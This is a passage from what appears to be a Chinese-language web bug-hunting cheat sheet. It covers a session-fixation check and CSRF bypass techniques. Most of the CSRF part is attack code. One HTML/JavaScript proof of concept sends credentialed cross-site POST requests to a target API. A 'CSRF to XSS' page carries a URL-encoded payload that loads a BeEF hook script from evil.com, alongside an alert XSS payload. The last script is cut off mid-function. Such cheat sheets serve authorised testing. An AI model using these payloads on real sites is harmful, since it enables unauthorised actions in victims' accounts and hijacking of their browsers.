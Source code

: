 可以试试双编码输入。

## 8.会话固定

快速检查的方法，可用于确定会话固定漏洞是否是网站上的问题：

```
转到登录页面，观察未经身份验证的用户拥有的会话ID。

登录该站点。进入后，观察用户拥有的会话ID。如果会话ID与用户进行身份验证之前由站点提供的会话ID匹配，那么存在会话固定漏洞。
```

## 9.CSRF

一些绕过技术，即使有CSRF Token:
<https://zseano.com/tutorials/5.html>

csrf和reset api:

```
<html>
<script>
function jsonreq() {
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open("POST","https://target.com/api/endpoint", true);
  xmlhttp.setRequestHeader("Content-Type","text/plain");
  //xmlhttp.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
  xmlhttp.withCredentials = true;
  xmlhttp.send(JSON.stringify({"test":"x"}));
}
jsonreq();
</script>
</html>
```

案例:

```
https://blog.appsecco.com/exploiting-csrf-on-json-endpoints-with-flash-and-redirects-681d4ad6b31b
http://c0rni3sm.blogspot.com/2018/01/1800-in-less-than-hour.html
```

CSRF TO REDECT XSS

```
<html>
  <body>
    <p>Please wait... ;)</p>
    <script>
let host = 'http://target.com'
let beef_payload = '%3c%73%63%72%69%70%74%3e%20%73%3d%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%3b%20%73%2e%74%79%70%65%3d%27%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%27%3b%20%73%2e%73%72%63%3d%27%68%74%74%70%73%3a%2f%2f%65%76%69%6c%2e%63%6f%6d%2f%68%6f%6f%6b%2e%6a%73%27%3b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%27%68%65%61%64%27%29%5b%30%5d%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%73%29%3b%20%3c%2f%73%63%72%69%70%74%3e'
let alert_payload = '%3Cimg%2Fsrc%2Fonerror%3Dalert(1)%3E'

function submitRequest() {
  var req = new XMLHttpRequest();
  req.open(<CSRF components, which can easily be copied from Burp's POC generator>);
  req.setRequestHeader("Accept", "*\/*");
  req.withCredentials = true;
  req.onreadystatechange = function () {
    if (req.readyState === 4) {
      executeXSS();
    }
  }
```